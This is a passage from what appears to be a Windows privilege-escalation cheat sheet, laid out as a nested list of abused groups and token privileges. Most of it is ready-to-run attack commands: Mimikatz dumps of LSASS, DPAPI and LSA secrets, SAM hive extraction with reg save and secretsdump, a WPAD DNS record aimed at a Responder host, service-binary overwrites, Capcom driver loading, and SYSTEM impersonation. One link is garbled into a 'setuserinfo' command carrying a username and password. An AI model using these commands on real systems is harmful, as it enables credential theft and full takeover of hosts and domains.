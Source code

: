                 *   `sc [stop/start] dns`
            *   LLMNR
                *   `Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName [DC_HOST]`
                *   `Add-DnsServerResourceRecordA -Name wpad -ZoneName [DOM] -Computername [DC_HOST] -IPv4Address [RESPONDER_IP]`
        *   Hyper-V Administrators
            *   `.\hyperv-eop.ps1`   → Change `license.rtf` → Startable SYSTEM Service
            *   `sc stop [SERVICE]` → `takeown /F [SERVICE_EXE]` → Overwrite → `sc start [SERVICE]`
        *   Backup Operators
            *   `SeBackupPrivilege` Exploitation
            *   Enable Privilege
                *   `. .\SeBackupPrivilege[Utils+CmdLets].dll`
                *   `Set-SeBackupPrivilege`
        *   Print Operators
            *   `SeLoadDriverPrivilege` Exploitation
            *   OS < Win10 - 1803
        *   Server Operators
            *   Full Services Access 
            *   `SeBackupPrivilege`
            *   `SeRestorePrivilege`
        *   [Azure Admins](https://zflemingg1.gitbook.io/undergrad-tutorials/vulnhub-machines-oscp/untitled)
    *   Privileges
        *   `whoami /priv`
        *   Disabled Service Privilege   → [FullPowers](https://github.com/itm4n/FullPowers)
        *   Disabled User Privileges      → `EnableAllTokenPrivs.ps1` / `Set-TokenPrivilege.ps1`
        *   [Exploitation](https://github.com/gtworek/Priv2Admin)
            *   [SeImpersonate](https://github.com/BeichenDream/GodPotato) / [SeAssignPrimaryToken](https://github.com/antonioCoco/JuicyPotatoNG)
                *   `NT AUTHORITY\LocalService` / `NT AUTHORITY\NetworkService` 
                *   Churrasco
                *   JuicyPotato
                *   RoguePotato
                *   GodPotato / SweetPotato
                *   [PrintSpoofer](https://setuserinfo christopher.lewis 23 'Admin!23')
            *   [SeTakeOwnership](https://academy.hackthebox.com/module/67/section/642)
                *   Arbitrary File/Directory Control
                *   `takeown /f "[FILE/FOLDER]"`
                *   `icacls "[FILE/FOLDER]" /grant %username%:F`
            *   [SeLoadDriver](https://academy.hackthebox.com/module/67/section/605)
                *   [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)        → `EoPLoadDriver.exe System\CurrentControlSet\Capcom capcom.sys`
                *   [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) → Modify CPP → VS2019 Compiling → Execute Malware
            *   [SeDebug](https://github.com/decoder-it/psgetsystem)
                *   LSASS / DPAPI / VAULT Dumping
                    *   `Invoke-Mimikatz '"privilege::debug" "token:elevate" "sekurlsa::logonpasswords"'`
                    *   `Invoke-Mimikatz '"privilege::debug" "token:elevate" "sekurlsa::dpapi"'`
                    *   `Invoke-Mimikatz ‘"privilege::debug" "token:elevate" "sekurlsa::credman"’`
                *   SAM / LSA Dumping
                    *   `Invoke-Mimikatz '"privilege::debug" "token:elevate" "lsadump::sam"'`
                    *   `Invoke-Mimikatz '"privilege::debug" "token:elevate" "lsadump::lsa /patch"'`
                *   SYSTEM RCE
                    *   Get PID       → `tasklist /v /fi "username eq SYSTEM"`
                    *   [Method 1](https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1)  → `. .\psgetsys.ps1; ImpersonateFromParentPid -ppid [PID] -command [CMD] -cmdargs [ARGS]`
                    *   [Method 2](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
                    *   [Method 3](https://github.com/dev-zzo/exploits-nt-privesc/blob/master/SeDebugPrivilege/SeDebugPrivilege.c)
            *   [SeBackup](https://academy.hackthebox.com/module/67/section/601)
                *   SAM Dumping
                    *   `secretsdump.py -security SECURITY.save -sam SYSTEM.save LOCAL`
                    *   `reg save hklm\sam c:\windows\temp\SAM.save`
                    *   `reg save hklm\system c:\windows\temp\SYSTEM.save`
